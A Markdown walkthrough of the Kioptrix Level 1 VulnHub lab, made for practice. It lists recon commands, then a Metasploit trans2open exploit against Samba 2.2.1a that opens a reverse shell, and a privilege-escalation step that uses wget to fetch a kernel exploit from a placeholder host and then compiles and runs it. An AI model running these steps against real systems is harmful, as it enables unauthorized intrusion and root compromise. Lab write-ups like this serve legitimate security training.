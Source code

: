 # 🧠 Kioptrix Level 1 – VulnHub CTF Walkthrough

**Author:** Shah Zaman  
**Platform:** VulnHub  
**Difficulty:** Beginner → Intermediate  
**Target IP:** `192.168.56.102`  
**Attacker:** Kali Linux  
**Objective:** Get root and capture the flag  
**Tools Used:** Netdiscover, Nmap, Nikto, Enum4linux, Metasploit, Searchsploit

---

## 📌 Table of Contents

1. [Information Gathering](#information-gathering)
2. [Scanning & Enumeration](#scanning--enumeration)
3. [Vulnerability Analysis](#vulnerability-analysis)
4. [Exploitation](#exploitation)
5. [Post Exploitation & Privilege Escalation](#post-exploitation--privilege-escalation)
6. [Flag Capture](#flag-capture)
7. [Lessons Learned](#lessons-learned)

---

## 🔎 Information Gathering

### 🔹 Step 1: Identify the Target IP
```bash
netdiscover -r 192.168.56.0/24
```
**Output:**
192.168.56.102 – Target Machine


## 🧪 Scanning & Enumeration

### 🔹Step 2: Nmap Scan for Open Ports
```bash
nmap -sC -sV -A -oN nmap.txt 192.168.56.102
```
**Output:**
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp  open  http        Apache httpd 1.3.20
111/tcp open  rpcbind     2 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache/1.3.20 (Unix) OpenSSL/0.9.6b
```


## 🔹 Step 3: Web Enumeration with Nikto
```bash
nikto -h http://192.168.56.102
```
**Output:**
+ Server: Apache/1.3.20 (Unix)
+ Retrieved x-powered-by header: PHP/4.1.2
+ /test.php: PHP file found
+ /phpinfo.php: PHP info file detected


## 🔹 Step 4: SMB Enumeration with Enum4linux
```bash
enum4linux -a 192.168.56.102
```
**Output:**
OS: Unix
Samba version: 2.2.1a
Workgroup: WORKGROUP



---

# 🔍Vulnerability Analysis

## SMB Version Detection (Recon)
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.56.102
run
```
**Output:**
Host: 192.168.56.102
OS: Unix
Samba Version: 2.2.1a

 ## 🔹Search Exploits using Searchsploit
 ```bash
searchsploit samba 2.2.1a
 ```
**Output:**
Samba 2.2.1a - Trans2open Overflow → exploit/linux/samba/trans2open

✅ Vulnerability confirmed!

---

# 4. 💥 Exploitation

## 🔹 Exploit Trans2open via Metasploit
```bash
use exploit/linux/samba/trans2open
set RHOST 192.168.56.102
set LHOST <your-Kali-IP>
set PAYLOAD linux/x86/shell_reverse_tcp
run
```
**Output:**
[*] Started reverse TCP handler
[*] Command shell session opened: 192.168.56.102 → 192.168.56.1

✅ Got reverse shell!

---

# 5. 🔐 Privilege Escalation

## 🔹 Upgrade Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
## 🔹 Check SUID Binaries
```bash
find / -perm -4000 -type f 2>/dev/null
```
## 🔹 Check Kernel
```bash
uname -a
```
**Output:**
Linux kioptrix 2.4.7-10 #1 i686 unknown

✅ Vulnerable to several known exploits!

## Search for Local Privesc:
```bash
searchsploit linux 2.4
```
## Use exploit :
```bash
cd /tmp
wget http://example.com/priv_esc_exploit.c
gcc priv_esc_exploit.c -o exploit
chmod +x exploit
./exploit
```

---

# 6. 🏁 Flag Capture

## 🔹 Check Root Access
```bash
whoami
```
**Output:**
root

## 🔹 Capture the Flag
```bash
cat /root/flag.txt
```
**Or:**
```bash
cd /var/mail
cat root
```
**🎉 Root access achieved, flag captured!**

---

# 7. 📚 Summary & Lessons Learned
✅ SMB enumeration is critical; Samba 2.2.1a is exploitable via Trans2open
✅ Used Metasploit for remote shell access
✅ Privilege escalation via local kernel exploit (2.4.7-10)
✅ Full system compromise achieved

---

## 🔗 References

- [Kioptrix Level 1 VulnHub Walkthrough – InfosecWriteups](https://infosecwriteups.com/kioptrix-level-1-vulnhub-walkthrough-49bcc7306e72)  
- [Kioptrix Level 1 VulnHub Walkthrough – Mark de Moras (Medium)](https://medium.com/@MarkdeMoras/kioptrix-level-1-1-vulnhub-walkthrough-by-mark-de-moras-147002cc4853)  
- [VulnHub Official Entry: Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

📘 Walkthrough created for learning and documentation. Feedback is welcome.
